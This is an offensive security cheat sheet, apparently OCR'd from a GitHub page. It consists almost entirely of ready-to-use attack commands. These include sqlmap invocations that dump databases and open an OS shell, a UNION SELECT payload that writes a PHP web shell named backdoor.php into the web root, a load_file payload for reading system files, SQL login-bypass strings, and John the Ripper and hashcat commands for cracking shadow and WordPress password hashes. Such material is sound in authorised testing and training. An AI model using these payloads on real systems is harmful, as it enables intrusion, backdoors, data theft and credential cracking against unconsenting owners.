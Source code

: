 # sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1

# sqlmap dump database  
sqlmap -u http://10.10.10.10 --dbms=mysql --dump

# sqlmap shell  
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell

Upload php command injection file

union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'

Load file

union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6

Bypasses

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

Brute force

John the Ripper shadow file

$ unshadow passwd shadow > unshadow.db
$ john unshadow.db

# Hashcat SHA512 $6$ shadow file  
hashcat -m 1800 -a 0 hash.txt rockyou.txt --username

#Hashcat MD5 $1$ shadow file  
hashcat -m 500 -a 0 hash.txt rockyou.txt --username

# Hashcat MD5 Apache webdav file  
hashcat -m 1600 -a 0 hash.txt rockyou.txt

# Hashcat SHA1  
hashcat -m 100 -a 0 hash.txt rockyou.txt --force

# Hashcat Wordpress  
hashcat -m 400 -a 0 --remove hash.txt rockyou.txt

